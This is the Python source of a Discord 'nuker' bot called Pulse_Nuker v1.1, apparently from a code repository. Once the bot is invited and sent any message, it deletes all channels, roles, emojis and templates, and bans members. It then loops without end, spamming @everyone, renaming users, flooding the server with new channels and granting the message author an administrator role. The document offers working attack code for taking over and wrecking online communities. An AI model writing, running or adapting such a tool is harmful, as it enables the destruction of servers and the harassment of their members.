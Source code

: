 # keungeohanbang
keungeohanbangnorineunceonsa
import os
import discord
import time
import random
import string
from discord.utils import get

def randomletters(length):
    letters = string.ascii_letters
    return ''.join(random.choice(letters) for i in range(length))

TOKEN = ("")


client=discord.Client(intents=discord.Intents.all())


@client.event
async def on_ready():
    global TEST
    TEST = 0
    print("Pulse_Nuker v1.1 is running.\nInvite your bot and send any message to start nuke.\n\n")
    print("WARNING!!\nYou may get API Timeout from Discord server if you nuke long.\nPlease Use wisely.")
    return await client.change_presence(activity=discord.Game(name='Pulse_Nuker v1.1'))


'''
@client.event
async def on_member_ban(guild,user):
    await guild.unban(user)
    print("removed ban")
'''


@client.event
async def on_message(message):
    if TEST == 0:
        TEST = 1
        for c in message.guild.channels: 
                await c.delete()
        for user in message.guild.members:
            try:
                await user.ban()
            except:
                pass
        for role in message.guild.roles:
            try:
                await role.delete()
            except:
                pass
        for Emoji in message.guild.emojis:
            await Emoji.delete()
        for template in await message.guild.templates():
           await template.delete()

    response = '@everyone' #You can add some messages via editing this string

    while True:
        print("message sent "+random.choice(string.ascii_letters))
        try:
            await message.channel.send(response)
        except:
            print("message error")
            pass
        try:
            for user in message.guild.members:
                await user.edit(nick=randomletters(3))
        except:
            print("can't change user nick")
            pass
        guild=message.guild
        perms=discord.Permissions(administrator=True)
        try:
            user=message.author
            await guild.create_role(name='TEST', colour=discord.Colour(0x597E8D),permissions=perms)
            role=get(guild.roles,name='TEST')
            await user.add_roles(role)
        except:
            print('maximum number of roles reached')
            pass
        guild=message.guild

        await guild.create_text_channel(randomletters(99))
        await guild.create_text_channel(randomletters(99))
        await message.channel.delete()
        print("channel yeeted")
        user=message.author

@client.event
async def on_command_error(error):
    if isinstance(error, discord.HTTPException):
        time.sleep(10)

@client.event
async def on_guild_channel_create(channel):
    await channel.send("@everyone")

client.run(TOKEN)
